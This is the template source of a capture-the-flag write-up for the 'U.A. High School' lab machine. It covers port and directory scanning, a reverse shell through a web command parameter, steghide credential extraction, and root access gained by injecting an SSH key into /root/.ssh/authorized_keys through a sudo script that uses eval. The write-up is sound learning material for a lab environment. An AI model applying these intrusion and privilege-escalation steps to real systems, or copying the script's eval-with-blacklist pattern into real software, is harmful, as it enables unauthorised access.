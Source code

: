 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the target for open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.123.111", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-19 12:47 CET
Warning: 10.10.123.111 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.123.111
Host is up (0.15s latency).
Not shown: 88 closed tcp ports (conn-refused)
PORT   STATE    SERVICE     VERSION
22/tcp open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("The scan reveals two open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Next, we proceed to examine the website hosted on port 80.")}}

{{image("../../static/writeups/uahighschool/images/000001.jpg")}}

{{text("Inspecting the source code reveals a <code class='bg-gray-300 rounded-md px-1'>/assets</code> directory.")}}

{{image("../../static/writeups/uahighschool/images/000002.jpg")}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>/assets</code> displays a blank page, which seems unusual.")}}

{{text("Access to <code class='bg-gray-300 rounded-md px-1'>/assets/writeups</code> is forbidden.")}}

{{text("I used a directory-scanning tool to uncover any hidden directories.")}}

{{console("gobuster dir -u http://10.10.123.111/assets/ -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.111/assets/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 322] [--> http://10.10.123.111/assets/images/]
/index.php            (Status: 200) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("This reveals an <code class='bg-gray-300 rounded-md px-1'>/index.php</code> file.")}}

{{text("Although the file is empty, trying out different parameters in the URL eventually yields a result.")}}

{{image("../../static/writeups/uahighschool/images/000003.jpg")}}

{{text("It appears that the <code class='bg-gray-300 rounded-md px-1'>cmd</code> parameter can accept arguments, returning base64-encoded output.")}}

{{text("Let's try and attempt to get a reverse shell.")}}

{{text("I use the following command from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>. Remember to URL encode your payload.")}}

{{image("../../static/writeups/uahighschool/images/000004.jpg")}}

{{text("Passing the encoded payload as a parameter provides us with a reverse shell.")}}

{{image("../../static/writeups/uahighschool/images/000005.jpg")}}

{{header("Shell as deku", "shell-as-deku")}}

{{text("There was a file containing a password in <code class='bg-gray-300 rounded-md px-1'>/var/www/Hidden_Content</code> directory, but its we don't know what is it for.")}}

{{console("cat passphrase.txt | base64 -d", "AllmightForEver!!!")}}

{{text("Further exploration leads to an unused image file in the <code class='bg-gray-300 rounded-md px-1'>/var/www/html/assets/writeups</code> directory.")}}

{{text("I suspected the password might be for extracting hidden content using <code class='bg-gray-300 rounded-md px-1'>steghide</code>.")}}

{{text("I Downloaded the image using <code class='bg-gray-300 rounded-md px-1'>wget 10.10.123.111/assets/writeups/oneforall.jpg</code>.")}}

{{text("Then, I attempted to extract hidden content with the password.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
steghide: the file format of the file 'oneforall.jpg' is not supported.")}}

{{text("The extraction failed because the file is of a wrong format.")}}

{{text("Viewing the file's hex dump reveals its <code class='bg-gray-300 rounded-md px-1'>PNG</code> signature.")}}

{{console("xxd oneforall.jpg | head", "00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..")}}

{{text("Changing the file signature to <code class='bg-gray-300 rounded-md px-1'>JPG</code> allows <code class='bg-gray-300 rounded-md px-1'>steghide</code> to extract the hidden content.")}}

{{image("../../static/writeups/uahighschool/images/000006.jpg")}}

{{text("This reveals credentials to log in via <code class='bg-gray-300 rounded-md px-1'>SSH</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I checked <code class='bg-gray-300 rounded-md px-1'>sudo</code> permissions for the user.")}}

{{console("sudo -l", "[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1'>feedback.sh</code> as any user.")}}

{{text("Let's read this file.")}}

{{console("cat feedback.sh", "#!/bin/bash

echo 'Hello, Welcome to the Report Form       '
echo 'This is a way to report various problems'
echo '    Developed by                        '
echo '        The Technical Department of U.A.'

echo 'Enter your feedback:'
read feedback

if [[ '$feedback' != *'\'* && '$feedback' != *')'* && '$feedback' != *'$('* && '$feedback' != *'|'* && '$feedback' != *'&'* && '$feedback' != *';'* && '$feedback' != *'?'* && '$feedback' != *'!'* && '$feedback' != *'\\'* ]]; then
    echo 'It is This:'
    eval 'echo $feedback'

    echo '$feedback' >> /var/log/feedback.txt
    echo 'Feedback successfully saved.'
else
    echo 'Invalid input. Please provide a valid input.' 
fi
")}}

{{text("It echoes any input we provide, if it doesn't contain any of the blacklisted symbols. We can notice that the <code class='bg-gray-300 rounded-md px-1'>></code> symbol is permitted, meaning we can use it to write to files.")}}

{{text("We generate a public key using <code class='bg-gray-300 rounded-md px-1'>ssh-keygen</code>, copy the public key and save it in <code class='bg-gray-300 rounded-md px-1'>/root/.ssh/authorized_keys</code>")}}

{{console("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILO60uNhTUNMEDTfn5f+qZZDXWg1JcMGtypKRMyIxnn6 kali@kali >> /root/.ssh/authorized_keys")}}

{{image("../../static/writeups/uahighschool/images/000007.jpg")}}

{{text("We now can log in as root by providing our <code class='bg-gray-300 rounded-md px-1'>id_rsa</code> key.")}}

{{console("ssh root@10.10.123.111 -i id_rsa")}}

{{text("We are able to find the flag in <code class='bg-gray-300 rounded-md px-1'>/root</code>.")}}

{{image("../../static/writeups/uahighschool/images/000008.jpg")}}

{{script()}}